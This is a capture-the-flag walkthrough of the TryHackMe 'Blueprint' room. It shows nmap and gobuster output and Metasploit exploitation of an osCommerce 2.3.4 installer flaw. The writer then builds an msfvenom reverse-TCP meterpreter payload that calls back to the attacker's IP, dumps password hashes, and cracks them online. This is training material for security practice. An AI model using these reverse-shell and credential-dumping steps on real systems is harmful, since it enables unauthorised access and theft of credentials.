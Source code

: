 # Blueprint

[Link to room](https://tryhackme.com/room/blueprint)

###### Enumeration

echo machine-ip blueprint.com >> /etc/hosts

```nmap
# Nmap 7.80 scan initiated Thu Jun 18 03:21:05 2020 as: nmap -sC -sV -oN nmap.txt blueprint.com
Nmap scan report for blueprint.com (10.10.135.2)
Host is up (0.48s latency).
Not shown: 987 closed ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 ((Win32) OpenSSL/1.0.2h PHP/5.6.28)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Bad request!
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m57s, deviation: 34m36s, median: 0s
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:2c:8d:2f:12:fa (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-06-18T08:23:19+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-06-18T07:23:16
|_  start_date: 2020-06-18T07:17:16

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 18 03:23:34 2020 -- 1 IP address (1 host up) scanned in 149.46 seconds
```

> I tried running `enum4linux` but could not get anything, `eternal blue` also does not work

> webserver on port 80 have nothing

> moving onto webserver on port 8080 

we see a website lets try use gobuster for directory brute-forcing

```bash
gobuster dir -u http://blueprint.com:8080/oscommerce-2.3.4/catalog/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```
===============================================================
2020/06/18 03:47:51 Starting gobuster
===============================================================
/download (Status: 401)
/images (Status: 301)
/pub (Status: 301)
/Images (Status: 301)
/admin (Status: 301)
/includes (Status: 301)
/install (Status: 301)
/Download (Status: 401)
/ext (Status: 301)
/INSTALL (Status: 301)
/IMAGES (Status: 301)
/%20 (Status: 403)
/Admin (Status: 301)
/*checkout* (Status: 403)
```

checking the install page we see something fishy also we will get the `version of oscommerce`
now lets dig deep into this webserver and search for an exploit
```start metasploit and search oscommerce```

###### Exploitation


Exploit we will use:
```exploit/multi/http/oscommerce_installer_unauth_code_exec```
set options



![](https://github.com/strange07/tryhackme/blob/master/Blueprint/1.png)

exploit

```
we will get a meterpreter session 
but this session is not stable
```

![](https://github.com/strange07/tryhackme/blob/master/Blueprint/2.png)

So we will create a payload and upload it using the meterpreter session

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```


open another tab and run metasploit
> use handler and and run it


![](https://github.com/strange07/tryhackme/blob/master/Blueprint/3.png)

```
on the previous meterpreter session
run: 
execute -f shell.exe
and we will get a new meterpreter session that is stable
run:
hashdump
to look for hashes and crack them online using htts://crackstation.net
```

1. Lab user hash

> Lab:1000:aad3b435b51404eeaad3b435b51404ee:??????????????????????:::

> go????????

2. root flag

`navigate to C:\Users\Administrator\Desktop` cat the root flag

> THM{????????????????????9bee}
